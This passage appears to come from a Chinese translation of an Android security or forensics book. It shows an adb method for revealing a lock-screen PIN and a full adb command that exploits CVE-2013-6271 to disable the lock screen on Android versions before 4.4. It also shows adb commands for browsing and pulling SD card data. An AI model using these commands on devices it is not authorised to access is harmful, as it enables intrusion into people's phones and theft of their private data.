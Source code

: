 运行上述命令将显示 PIN，如下所示：

![Bypassing password/PIN using adb](img/image01563.jpeg)

破解此 PIN 所需的时间取决于用户设置的 PIN 的复杂性。

## 使用 CVE-2013-6271 绕过屏幕锁

### 注

注：此技术仅适用于 4.4 版之前的 Android 设备。尽管必须启用 USB 调试，但它不需要根用户访问。

2013 年，Curesec 披露了一个漏洞，该漏洞允许在 Android 设备上无需适当的用户交互即可清除锁屏。这基本上是`com.android.settings.ChooseLockGeneric`类中的一个漏洞。用户可以发送禁用任何类型屏幕锁定的意图：

```
$ adb shell am start -n com.android.settings/com.android.settings.ChooseLockGeneric --ez confirm_credentials false --ei lockscreen.password_type 0 --activity-clear-task

```

运行上述命令将禁用锁定屏幕。

# 从 SD 卡中拉取数据

当设备上启用 USB 调试时，我们可以将设备中的数据拉到本地机器上。如果设备没有根目录，我们仍然可以继续从 SD 卡中提取数据，如下所示：

```
$ adb shell
shell@e73g:/ $ cd /sdcard/
shell@e73g:/sdcard $ ls
Android
CallRecordings
DCIM
Download
Galaxy Note 3 Wallpapers
HyprmxShared
My Documents
Photo Grid
Pictures
Playlists
Ringtones
SHAREit
Sounds
Studio
WhatsApp
XiaoYing
__chartboost
bobble
com.flipkart.android
data
domobile
gamecfg
gameloft
media
netimages
postitial
roidapp
shell@e73g:/sdcard $

```
